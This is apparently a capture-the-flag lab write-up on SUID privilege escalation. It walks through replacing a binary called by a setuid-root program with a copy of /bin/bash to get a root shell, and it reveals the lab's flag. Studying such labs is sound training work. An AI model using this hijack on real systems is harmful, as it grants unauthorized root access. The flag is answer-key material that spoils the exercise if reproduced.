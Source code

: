 # 🔬SUID

## Lab 1

>  🔬 [Exploiting Setuid Programs](https://www.attackdefense.com/challengedetails?cid=73)
>
>  - **SUID** Privilege escalation
>  - Already logged on as `student` unprivileged user

```bash
pwd
ls -al
```

```bash
drwxr-xr-x 1 student student 4096 Sep 22  2018 .
drwxr-xr-x 1 root    root    4096 Sep 22  2018 ..
-rw-r--r-- 1 root    root      88 Sep 22  2018 .bashrc
-r-x------ 1 root    root    8296 Sep 22  2018 greetings
-rwsr-xr-x 1 root    root    8344 Sep 22  2018 welcome
```

> 📌 `welcome` file has the `SUID` permission applied

```bash
./greetings
	bash: ./greetings: Permission denied
./welcome
	Welcome to Attack Defense Labs
```

```bash
file welcome
```

```bash
welcome: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2,for GNU/Linux 3.2.0, BuildID[sha1]=199bc8fd6e66e29f770cdc90ece1b95484f34fca, not stripped
```

```bash
strings welcome
```

![](linux-attacksassets/image-20230319194050643.png)

- It calls `greetings` binary

```bash
rm greetings
cp /bin/bash greetings
./welcome
```

![](linux-attacksassets/image-20230319194317860.png)

```bash
cd /root
cat flag
```



<details>
<summary>Reveal Flag: 🚩</summary>



`b92bcdc876d52108778e2d81f3b01494`

![](linux-attacksassets/image-20230319194412904.png)

</details>

------

